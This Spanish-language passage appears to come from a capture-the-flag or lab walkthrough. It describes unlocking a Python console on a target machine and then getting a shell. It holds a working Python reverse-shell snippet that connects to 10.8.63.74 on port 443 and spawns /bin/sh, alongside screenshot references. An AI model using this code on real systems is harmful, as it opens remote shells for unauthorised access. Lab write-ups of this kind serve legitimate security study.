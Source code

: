 ![20230924003154.png](20230924003154.png)

### Desbloqueo de la consola de Python

![20230924003526.png](20230924003526.png)

### Obteniendo una shell 

Tenemos una manera de ejecutar comandos y poder enviarnos una shell desde la máquina víctima

Con el siguiente codigo en python nos enviaremos una shell a nuestra máquina 
revershell

```python
import socket,os,pty
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.8.63.74",443))
os.dup2(s.fileno(),0);os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2);pty.spawn("/bin/sh")
```

Ejecutamos el comado:

![20230924004010.png](20230924004010.png)
